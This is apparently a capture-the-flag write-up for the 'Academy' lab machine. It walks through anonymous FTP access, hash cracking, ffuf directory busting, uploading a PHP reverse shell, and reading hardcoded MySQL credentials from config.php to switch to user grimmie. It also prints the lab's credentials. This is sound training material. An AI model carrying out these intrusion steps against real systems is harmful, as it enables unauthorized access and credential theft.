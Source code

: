 # Academy machine writeup

Starting with nmap scan we have three ports open 21 22 80 for ftp ssh http
## SCREENSHOT
let's enumerate ftp. Let's see if it provides anonymous login
## SCREENSHOT
Great it does provide anonymous login. We have an interesting file "note.txt". Check that file
## SCREENSHOT
It has inssert query, ok we have good findings like user_id and password hash. Crack the hash using online website like LINK.  
Yes we cracked the hash and it is "student", but how we can use that credential. Let's do some directory busting using ffuf. Why ffuf, because ffuf doesn't search inside any directory.
```
ffuf -u http://192.168.0.105/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: academy

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: phpmyadmin

```
We found two paths /academy and /phpmyadmin. Let's try the credential we found in phpmyadmin, but it didn't work and it seems to be not vulnerable to sql injection, let's go to /academy. 
## SCREENSHOT
Great we are in, ok we are looking for a way to get a shell, there is file upload we can check it if it is vulnerable to RFI.
## SCREENSHOT
As we saw it is a php app we can use php reverse shell. Before we upload the shell we need to set netcat to listen to any incoming connections.  
Upload the file
## SCREENSHOT
Boom we have access, go to home
```
$ cd /home
$ ls
grimmie
```
we have grimmie user
```
cd grimmie
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
```
we have interesting file "backup.sh" but we can't execute it since we are www-data, we need to be grimmie, leave it now and continue exploring the server. Let's explore the website code files looking for any hardcoded credentials.
```
$ cd /var/www/html/academy
admin                   enroll-history.php  my-profile.php
assets                  enroll.php          pincode-verification.php
change-password.php     includes            print.php
check_availability.php  index.php           studentphoto
db                      logout.php
```
Inside admin/includes, there is a hardcoded credentials for mysql database
```
$ cd admin
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```
Great we have username "grimmie" and password "My_V3ryS3cur3_P4ss", let's try to switch to grimmie
```
$ su grimmie
su grimmie
Password: My_V3ryS3cur3_P4ss

grimmie@academy:/var/www/html/academy/admin/includes$ whoami
grimmie
grimmie@academy:/var/www/html/academy/admin/includes$
```
